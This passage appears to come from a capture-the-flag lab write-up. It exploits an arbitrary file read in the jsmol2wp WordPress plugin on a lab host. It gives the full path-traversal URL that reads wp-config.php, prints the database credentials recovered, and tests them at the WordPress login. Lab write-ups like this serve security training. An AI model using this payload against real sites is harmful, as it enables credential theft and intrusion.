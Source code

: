

This talks about an arbitrary file read, let's follow the PoC and visit 

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

![Pasted image 20250127160431.png](../../IMAGES/Pasted%20image%2020250127160431.png)

It indeed works, we got some credentials: `wpuser`:`kbLSF2Vop#lw3rjDZ629*Z%G`, we can test those credentials at: `http://www.smol.thm/wp-login.php`:

![Pasted image 20250127160614.png](../../IMAGES/Pasted%20image%2020250127160614.png)